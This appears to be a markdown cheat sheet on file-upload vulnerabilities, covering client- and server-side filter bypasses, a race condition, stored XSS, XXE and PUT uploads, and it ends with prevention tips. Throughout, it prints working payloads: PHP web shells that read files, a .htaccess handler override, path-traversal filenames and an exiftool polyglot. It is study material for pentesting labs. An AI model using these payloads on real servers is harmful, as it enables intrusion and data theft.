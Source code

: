 # 

# File Upload Vulnerability

## ByPass Client Side Filterin

1. Turn of JavaScript But Make Sure the Website doesn't require Javascript in order to provide basic functionality.

2. Intercept and modify the incoming page. Using Burpsuite
   
   EX:
   
           1-Intercept on to get This Request 
           2-Right Click and choose -> Do Intercept
           3-Response This request 
           4-Forward
           5-And Delete JS code Filter

3. Send the file directly to the upload point.
   
   Why use the webpage with the filter,when you can send the file directly using a tool. like curl
   
       curl -X POST -F "submit:<value>" -F "<file-parameter>:@<path-to-file>" <site>

4. Edit Content-Type: header to
   
           1-Upload File With Accepted Extention
           2-Intercept This Request 
           3-Edit Content-Type to -> Content-Type:text/x-php or image/png -> would you want
           3-and Edit file Extention to what you want

5. File Upload via Path Traversal 
   
           Content-Disposition: form-data; name="avatar"; filename="../get_f_c.php"
           Content-Disposition: form-data; name="avatar"; filename="%2e%2e%2fget_f_c.php"
       
           GET /files/avatars/../get_f_c.php
           GET /files/avatars/..%2get_f_c.php

6. Test them using some uppercase letters
   
         pHp, .pHP5, .PhAr ...

7. using .htaccess file
   
   this file is the file of configration in appache you can add configration on it to accept any extension ike .shell , .test then you should aupload two fils file .htaccess 
   
   file One
   
       Content-Disposition: form-data; name="avatar"; filename=".htaccess"
       Content-Type: text/plain
       AddType application/x-httpd-php .shell
   
   flle Two
   
       Content-Disposition: form-data; name="avatar"; filename="shell.shell"
       Content-Type: image/png
       <?php echo file_get_contents('/path/to/target/file'); ?>

--- 

## ByPass ServerSide Filtering

1. First You have to perform a lot of testing to build up an idea of what is or is not allowed through the filter.

2. Try All Possible Extention work for The Same Thing You Want https://book.hacktricks.xyz/pentesting-web/file-upload

3. Magic Numbers
   
   see this site To Know Your Extention Magic Number
   
   https://gist.github.com/leommoore/f9e57ba2aa4bf197ebc5
   
   https://en.wikipedia.org/wiki/List_of_file_signatures
   
   Use Any hex editor to Edit First bits. Like hexeditor
   
   | .jpg | ff d8 ff e0 |
   | ---- | ----------- |
   | .png | ff d8 ff e0 |
   
   or using exftool using this script
   
       exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" <YOUR-INPUT-IMAGE>.jpg -o polyglot.php
   
   use Command `file filename` to know if the magic Numbers work

4. Execute it before deleteing
   
    Modern frameworks are more battle-hardened against these kinds of attacks. They generally don't upload files directly to their intended destination on the filesystem. Instead, they take precautions like uploading to a temporary, sandboxed directory first and randomizing the name to avoid overwriting existing files. They then perform validation on this temporary file and only transfer it to its destination once it is deemed safe to do so.
   
   That said, developers sometimes implement their own processing of file uploads independently of any framework. Not only is this fairly complex to do well, it can also introduce dangerous race conditions that enable an attacker to completely bypass even the most robust validation.
   
   For example, some websites upload the file directly to the main filesystem and then remove it again if it doesn't pass validation. This kind of behavior is typical in websites that rely on anti-virus software and the like to check for malware. This may only take a few milliseconds, but for the short time that the file exists on the server, the attacker can potentially still execute it.
   
   These vulnerabilities are often extremely subtle, making them difficult to detect during blackbox testing unless you can find a way to leak the relevant source code. 
   
   EX:
   
   [Lab: Web shell upload via race condition | Web Security Academy](https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-race-condition)

5. Outher Vulnerability
   
   ##### Uploading malicious client-side scripts
   
   Although you might not be able to execute scripts on the server, you may still be able to upload scripts for client-side attacks. For example, if you can upload HTML files or SVG images, you can potentially use `<script>` tags to create <u>stored XSS</u> payloads.
   
   If the uploaded file then appears on a page that is visited by other users, their browser will execute the script when it tries to render the page. Note that due to same-origin policy restrictions, these kinds of attacks will only work if the uploaded file is served from the same origin to which you upload it.
   
   ##### Exploiting vulnerabilities in the parsing of uploaded files
   
   If the uploaded file seems to be both stored and served securely, the last resort is to try exploiting vulnerabilities specific to the parsing or processing of different file formats. For example, you know that the server parses XML-based files, such as Microsoft Office `.doc` or `.xls` files, this may be a potential vector for <u>XXE injection</u> attacks.
   
   ### Uploading files using PUT
   
   It's worth noting that some web servers may be configured to support `PUT` requests. If appropriate defenses aren't in place, this can provide an alternative means of uploading malicious files, even when an upload function isn't available via the web interface.
   
       PUT /images/exploit.php HTTP/1.1
       Host: vulnerable-website.com
       Content-Type: application/x-httpd-php
       Content-Length: 49
       <?php echo file_get_contents('/path/to/file'); ?>
   
   Tip
   
   You can try sending `OPTIONS` requests to different endpoints to test for any that advertise support for the `PUT` method.

## How to prevent file upload vulnerabilities

Allowing users to upload files is commonplace and doesn't have to be dangerous as long as you take the right precautions. In general, the most effective way to protect your own websites from these vulnerabilities is to implement all of the following practices:

- Check the file extension against a whitelist of permitted extensions rather than a blacklist of prohibited ones. It's much easier to guess which extensions you might want to allow than it is to guess which ones an attacker might try to upload. 

- Make sure the filename doesn't contain any substrings that may be interpreted as a directory or a traversal sequence (`../`).

-  Rename uploaded files to avoid collisions that may cause existing files to be overwritten. 

-  Do not upload files to the server's permanent filesystem until they have been fully validated. 

-  As much as possible, use an established framework for preprocessing file uploads rather than attempting to write your own validation mechanisms. 
